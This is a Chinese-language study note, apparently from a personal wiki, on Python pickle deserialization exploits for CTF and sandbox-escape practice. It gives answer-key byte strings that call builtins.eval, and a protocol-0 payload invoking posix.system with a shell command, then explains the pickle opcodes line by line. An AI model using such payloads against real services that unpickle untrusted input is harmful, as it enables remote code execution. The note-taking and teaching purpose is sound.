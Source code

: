 4.使用`__setstate__`打印flag的值

答案：
1. `b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x04demo\x93)\x81}(\x8c\x04name\x8c\x05aaaaa\x8c\x03ageK\x19sb.'`
2. `b'\x80\x04\x95\x22\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x8c\x04eval\x93\x8c\x10print(flag.flag)\x85R.'`
3. `b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x04demo\x93)\x81}\x8c\x05study\x8c\x04flag\x8c\x04flag\x93sb.'`
4. `b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x04demo\x93)\x81}(\x8c\x04name\x8c\x05aaaaa\x8c\x03ageK\x19\x8c\x0c__setstate__\x8c\x08builtins\x8c\x04eval\x93ub\x8c\x10print(flag.flag)b.'`

## [如何用pickle code来写代码](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html#pickle-code)

如果真正做过这题的同学，就会提出一个疑问了：首先执行getattr获取eval函数，再执行eval函数，这实际上是两步，而我们常用`__reduce__`生成的序列化字符串，只能执行一个函数，这就产生矛盾了。

那么，我们如何抛弃`__reduce__`，手搓pickle代码呢？

先来了解一下pickle究竟是个什么东西吧。pickle实际上是一门栈语言，他有不同的几种编写方式，通常我们人工编写的话，是使用protocol=0的方式来写。而读取的时候python会自动识别传入的数据使用哪种方式，下文内容也只涉及protocol=0的方式。

和传统语言中有变量、函数等内容不同，pickle这种堆栈语言，并没有“变量名”这个概念，所以可能有点难以理解。pickle的内容存储在如下两个位置中：

- stack 栈
- memo 一个列表，可以存储信息

我们还是以最常用的那个payload来看起，首先将payload `b'cposix\nsystem\np0\n(Vtouch /tmp/success\np1\ntp2\nRp3\n.'`写进一个文件，然后使用如下命令对其进行分析：

`python -m pickletools pickle`

可见，其实输出的是一堆OPCODE：
![][https://www.leavesongs.com/media/attachment/2019/05/27/76b0423d-76de-4ccc-b0e2-225f7dccffdc.png]

protocol 0的OPCODE是一些可见字符，比如上图中的c、p、(等。
我们在Python源码中可以看到所有opcode：

[![Choco‘s wiki/Notes/media/dc7966815eff105be3dba849363e6f08_MD5.jpg](/img/user/Choco%E2%80%98s%20wiki/Notes/media/dc7966815eff105be3dba849363e6f08_MD5.jpg)

上面例子中涉及的OPCODE我做下解释：

- `c`：引入模块和对象，模块名和对象名以换行符分割。（find_class校验就在这一步，也就是说，只要c这个OPCODE的参数没有被find_class限制，其他地方获取的对象就不会被沙盒影响了，这也是我为什么要用getattr来获取对象）
- `(`：压入一个标志到栈中，表示元组的开始位置
- `t`：从栈顶开始，找到最上面的一个(，并将(到t中间的内容全部弹出，组成一个元组，再把这个元组压入栈中
- `R`：从栈顶弹出一个可执行对象和一个元组，元组作为函数的参数列表执行，并将返回值压入栈上
- `p`：将栈顶的元素存储到memo中，p后面跟一个数字，就是表示这个元素在memo中的索引
- `V`、`S`：向栈顶压入一个（unicode）字符串
- `.`：表示整个程序结束

知道了这些OPCODE，我们很容易就翻译出`__reduce__`生成的这段pickle代码是什么意思了：

`0: c GLOBAL 'posix system'` # 向栈顶压入`posix.system`这个可执行对象
`14: p PUT 0` # 将这个对象存储到memo的第0个位置
`17: ( MARK` # 压入一个元组的开始标志
`18: V UNICODE 'touch /tmp/success'` # 压入一个字符串
`38: p PUT 1` # 将这个字符串存储到memo的第1个位置
`41: t TUPLE (MARK at 17)` # 将由刚压入栈中的元素弹出，再将由这个元素组成的元组压入栈中
`42: p PUT 2` # 将这个元组存储到memo的第2个位置
`45: R REDUCE` # 从栈上弹出两个元素，分别是可执行对象和元组，并执行，结果压入栈中
`46: p PUT 3` # 将栈顶的元素（也就是刚才执行的结果）存储到memo的第3个位置
`49: . STOP` # 结束整个程序
